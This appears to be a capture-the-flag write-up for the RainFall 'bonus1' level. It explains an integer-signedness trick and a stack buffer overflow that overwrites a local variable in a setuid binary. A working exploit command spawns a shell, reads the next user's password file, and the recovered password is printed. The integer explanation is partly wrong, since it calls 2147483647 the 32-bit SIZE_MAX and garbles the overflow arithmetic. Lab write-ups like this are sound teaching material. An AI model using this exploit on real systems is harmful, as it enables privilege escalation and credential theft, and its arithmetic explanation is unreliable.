 Bonus1 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

Bonus1 rights:
```Shell
bonus1@RainFall:~$ ls -la bonus1 
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- there is only a `main()` function and it takes two arguments
- `atoi()` is used on the first argument and stores the result an integer called `v5`
- a condition prevents `v5` from being greater than 9, exiting the program otherwise
- then, `v5` is compared to 1464814662, and if equal, it opens a shell
- a call to `memcpy()` is made using a 40-bytes buffer as dest and the second argument as src, with a size of 4 times the value of `v5`

We know that local variables follow each other in the stack frame. If we can overflow the buffer, we could change the value of `v5` to 1464814662, which is 574F4C46 in hexadecimal.

However, the first argument needs to be equal to 11 if we want to do an overflow (11 * 4 = 44, which is the size of our payload if we want to reach `v5`). But how do we bypass the condition that it shouldn't be greater than 9? 
`int` can be negative but `memcpy()` takes a `size_t` (unsigned int) as parameter. When converted into `size_t`, a negative value can become positive again because of the underflow: if we 
pass the right negative value, we could therefore obtain something that would be equal to 11.

Let's see:
`SIZE_MAX`, the maximum for a `size_t` on a 32-bits system, is 2147483647
`INT_MIN`, the minimum for an integer, is -2147483648.  

Doing `-(SIZE_MAX)` underflows to 0, so if we want `v5` to be 11, we need to send `-(SIZE_MAX - 11)` as our first parameter.  This gives us -2147483636 which is greater than `INT_MIN`.
Our second argument will be 40 bytes of padding followed by 1464814662 converted in Little Endian.

And the result is:
```Shell
bonus1@RainFall:~$ ./bonus1 -2147483636 $(python -c 'print("A" * 40 + "\x57\x4f\x4c\x46"[::-1])')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```